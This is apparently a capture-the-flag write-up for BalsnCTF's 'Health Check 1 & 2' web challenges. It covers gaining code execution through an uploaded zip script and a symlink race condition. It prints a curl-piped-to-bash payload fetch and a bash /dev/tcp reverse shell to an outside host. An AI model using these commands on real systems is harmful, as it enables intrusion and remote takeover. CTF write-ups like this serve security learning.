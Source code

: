 ```yaml
---
layout: single
title: Health Check 1 & 2 - BalsnCTF
date: 2022-9-05
---
```


## Challenge Description
"Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!"


## Information
Some information about healthcheck1 and healthcheck2, these are 2 seperate challenges where you have to gain access with RCE for healthcheck 1 enumerate the file system and grab the flag. After that healthcheck 2 comes to the surface, so we got a shell and with that into web application directory(`/home/healthcheck/app`) we found 2 python files called `apiserver.py` and `background.py` with source code of the app, analyzing the source code of the `apiserver.py` at `@app.get('/{dir_name}')` route is there a opportunity for a `race contition` attack and after that grab the second flag.


## Health Check 1
A first look into web challenge we got a message `{"message":"Hello World"}` who looks like `json` format. Doing more enumeration i didnt find something worth so i try bruteforce some directories. <br>
![index](https://user-images.githubusercontent.com/45040001/188512190-3470dbe0-f726-4f73-92a1-11b802ffe06f.png)

While directory bruteforcing running the `/docs` directory appear with different `content length` <br>
![docs_dir](https://user-images.githubusercontent.com/45040001/188512230-691bfdc5-8811-4e0b-a180-b15a56e97f28.png)

When visit the `/docs` directory we found 3 interestings HTTP routes and they are: `POST /new`,`GET /{dir_name}` and the last one `GET /` <br>
![docs](https://user-images.githubusercontent.com/45040001/188512252-23eea18f-11a7-4008-b7b0-b85ed03742c8.png)
<br>

Lets enumerate these routes... Lets take the first one and open it we will find out a description which says:
<b>"This endpoint is only for admin. do NOT share this link with players!

Upload the health check script to create a new problem. The uploaded file should be a zip file. The zip file should NOT have a top-level folder, you must place an executable (or a script) named run. You may put other fiels as you want. Below is an example output of zipinfo myzip.zip of a valid myzip.zip"</b>
<br>
![admin_only](https://user-images.githubusercontent.com/45040001/188512336-edf35a77-5b7d-4bc4-bdd8-956d5aa938f3.png)

When i read `you must place an executable (or a script)` instantly i thing a bash script so i tried.<br>
![upload exploit](https://user-images.githubusercontent.com/45040001/188512694-815aa9fe-edc5-4eb4-a3d1-fd1103a1ef8a.png)

I create a zip file with a random name(`tet.zip`) and i put my `run` executable inside with the curl command sending a `GET` requst to my burpcollaborator.(bellow run executable source code) <br>
```bash
#!/bin/bash

curl http://burpcollaborator.net/
```
After a few seconds i get the request from curl command and i knew it i can get a reverse shell just putting the reverse shell into run executable but... <br>
![curl](https://user-images.githubusercontent.com/45040001/188512936-18f8d21c-d5a4-4cdd-87f0-6dcdd562b042.png)

but when i tried i had a problem.. The problem it was the URL scheme must be "http","https" so i create 2 other files.(source code below)<br>
![cors](https://user-images.githubusercontent.com/45040001/188512958-8afb1bfb-cba4-43b7-ba6a-3535130004f2.png)

<br>

The first file was the `shell.sh` where i upload it into a web server so i can reach it from the other file called `run` executable.
```bash
#!/bin/bash
# shell.sh

bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12771 0>&1
```

This source code below is the `run` executable where with the `curl` command we get the source code of `shell.sh` and pipeline it with `bash` command and successfully get the reverse shell .
```bash
#!/bin/bash
# run executable

curl http://server-to-shell.com/shell.sh|bash
```

![rev_shell](https://user-images.githubusercontent.com/45040001/188512834-833e9ba4-3db1-43de-8a8f-dc7e1ae3cd84.png) <br>

We can retrive the flag in the `__pycache__` directory.
![flag](https://user-images.githubusercontent.com/45040001/188512842-48603fcf-de87-439a-8168-dc3fcd5be75e.png)


## Health Check 2

![examine](https://user-images.githubusercontent.com/45040001/188760193-9a4b878f-9659-4dd7-864d-e0646ab7f53a.png)


```python
@app.get('/{dir_name}')
async def get_status(dir_name: str):
    file = data_path / dir_name / 'status.json'
    if not file.resolve().is_relative_to((data_path / dir_name).resolve()):
        return HTTPException(404, detail='no status')
    try:
        with open(file, 'r') as fp:
            return fp.read()
    except:
        return HTTPException(404, detail='no status')
```

![upload zip_for flag](https://user-images.githubusercontent.com/45040001/188760009-9ed5c627-b8f2-4105-b548-11f59ae5bd6a.png)

```bash
# run executable into flag.zip
while :; do ln -s /home/healthcheck/app/flag2 status.json; rm status.json; echo 'lalal' > status.json; rm status.json; done
```


![run_my_script](https://user-images.githubusercontent.com/45040001/188760071-b6c4a1d1-212c-44d4-ab9a-9a9399777a51.png)

![404](https://user-images.githubusercontent.com/45040001/188760084-ea4bb487-ce74-4944-b0ad-b29b171f238c.png)

![lalala](https://user-images.githubusercontent.com/45040001/188760090-36c82282-f3d3-4ede-9edc-6e5ff54fdc61.png)

![flag](https://user-images.githubusercontent.com/45040001/188760093-e824b6d0-d869-4148-8db6-b443521888da.png)




